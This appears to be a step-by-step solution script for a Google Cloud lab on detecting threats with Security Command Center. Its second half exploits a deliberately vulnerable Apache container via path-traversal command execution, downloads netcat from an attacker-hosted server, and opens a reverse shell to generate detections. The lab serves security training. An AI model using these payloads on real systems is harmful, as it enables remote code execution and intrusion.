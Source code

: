 
# Detect and Investigate Threats with Security Command Center [GSP1125]

# If you consider that the video helped you to complete your lab, so please do like and subscribe [Techcps](https://www.youtube.com/@techcps)

* In the GCP Console open the Cloud Shell and enter the following commands:

```
export ZONE=us-central1-c
REGION=${ZONE::-2}
```
## Note: Go to "IAM & Admin" > "Audit Logs".
* Click the findbar and type: "Cloud Resource Manager API"

* Click the checkbox on "Cloud Resource Manager API" and select "Admin Read" then click save button.

```
gcloud services enable securitycenter.googleapis.com --project=$DEVSHELL_PROJECT_ID
sleep 30

gcloud projects add-iam-policy-binding $DEVSHELL_PROJECT_ID \
--member=user:demouser1@gmail.com --role=roles/bigquery.admin

gcloud projects remove-iam-policy-binding $DEVSHELL_PROJECT_ID \
--member=user:demouser1@gmail.com --role=roles/bigquery.admin

gcloud projects add-iam-policy-binding $DEVSHELL_PROJECT_ID \
  --member=user:$USER_EMAIL \
  --role=roles/cloudresourcemanager.projectIamAdmin
```

```
gcloud compute instances create instance-1 --project=$DEVSHELL_PROJECT_ID --zone=$ZONE --machine-type=e2-medium --network-interface=network-tier=PREMIUM,stack-type=IPV4_ONLY,subnet=default --metadata=enable-oslogin=true --maintenance-policy=MIGRATE --provisioning-model=STANDARD --scopes=https://www.googleapis.com/auth/cloud-platform --create-disk=auto-delete=yes,boot=yes,device-name=instance-1,image=projects/debian-cloud/global/images/debian-11-bullseye-v20230912,mode=rw,size=10,type=projects/$DEVSHELL_PROJECT_ID/zones/$ZONE/diskTypes/pd-balanced --no-shielded-secure-boot --shielded-vtpm --shielded-integrity-monitoring --labels=goog-ec-src=vm_add-gcloud --reservation-affinity=any

gcloud dns --project=$DEVSHELL_PROJECT_ID policies create dns-test-policy --description="Please subscirbe to techcps" --networks="default" --private-alternative-name-servers="" --no-enable-inbound-forwarding --enable-logging

sleep 45
```

```
gcloud compute ssh --zone "$ZONE" "instance-1" --tunnel-through-iap --project "$DEVSHELL_PROJECT_ID" --quiet --command "gcloud projects get-iam-policy \$(gcloud config get project) && curl etd-malware-trigger.goog"
```
## Note: Check the progress on task 1 & 2
* Do not move until you get score on tast 1 & 2

```
gcloud compute instances delete instance-1 --zone=$ZONE --quiet
```

```
gcloud compute instances create attacker-instance \
--scopes=cloud-platform  \
--zone=$ZONE \
--machine-type=e2-medium  \
--image-family=ubuntu-2004-lts \
--image-project=ubuntu-os-cloud \
--no-address


gcloud compute networks subnets update default \
--region=$REGION \
--enable-private-ip-google-access
sleep 45
gcloud compute ssh --zone "$ZONE" "attacker-instance" --quiet
```

## Note: Go to Task 5 & Copy the IP address

```
Enter IP_on_Task5=
```

```
export ZONE=us-central1-c
```
```
sudo snap remove google-cloud-cli

curl -O https://dl.google.com/dl/cloudsdk/channels/rapid/downloads/google-cloud-cli-438.0.0-linux-x86_64.tar.gz

tar -xf google-cloud-cli-438.0.0-linux-x86_64.tar.gz

./google-cloud-sdk/install.sh
```

```
. ~/.bashrc

gcloud components install kubectl gke-gcloud-auth-plugin --quiet

gcloud container clusters create test-cluster \
--zone "$ZONE" \
--enable-private-nodes \
--enable-private-endpoint \
--enable-ip-alias \
--num-nodes=1 \
--master-ipv4-cidr "172.16.0.0/28" \
--enable-master-authorized-networks \
--master-authorized-networks "$Enter IP_on_Task5="
sleep 45

while true; do
    output=$(kubectl describe daemonsets container-watcher -n kube-system)
    if [[ $output == *container-watcher-unique-id* ]]; then
        echo "Found unique ID in the output:"
        echo "$output"
        break
    else
        echo "Please like share & subscirbe to techcps / If you're cricketlover then follow cricetcps"
        sleep 15
    fi
done
```

## Note: This command will take a few minutes to display the output

* After Getting a Output run the following Command

```
kubectl create deployment apache-deployment \
--replicas=1 \
--image=us-central1-docker.pkg.dev/cloud-training-prod-bucket/scc-labs/ktd-test-httpd:2.4.49-vulnerable

kubectl expose deployment apache-deployment \
--name apache-test-service  \
--type NodePort \
--protocol TCP \
--port 80


NODE_IP=$(kubectl get nodes -o jsonpath={.items[0].status.addresses[0].address})
NODE_PORT=$(kubectl get service apache-test-service \
-o jsonpath={.spec.ports[0].nodePort})


gcloud compute firewall-rules create apache-test-service-fw \
--allow tcp:${NODE_PORT}

gcloud compute firewall-rules create apache-test-rvrs-cnnct-fw --allow tcp:8888
```
```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; id"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; ls -l /"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; hostname"

gsutil cp \
gs://cloud-training/gsp1125/netcat-traditional_1.10-41.1_amd64.deb .
mkdir netcat-traditional
dpkg --extract netcat-traditional_1.10-41.1_amd64.deb netcat-traditional

LOCAL_IP=$(ip -4 addr show ens4 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')
echo ${LOCAL_IP}

python3 -m http.server --bind ${LOCAL_IP} \
--directory ~/netcat-traditional/bin/ 8888 &
```

```
curl http://${LOCAL_IP}:8888

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; chmod +x /tmp/nc"

```

```
pkill python
```

```
lsof -i -sTCP:LISTEN

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; /tmp/nc"
```

## Note: Open the new terminal

```
nc -nlvp 8888
```

## Note: Go back first terminal

```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; /tmp/nc ${LOCAL_IP} 8888 -e /bin/bash"
```

## Note: Go back to second terminal

```
ls -l /
```

# Congratulations, you're all done with the lab 😄

# Thanks for watching :)
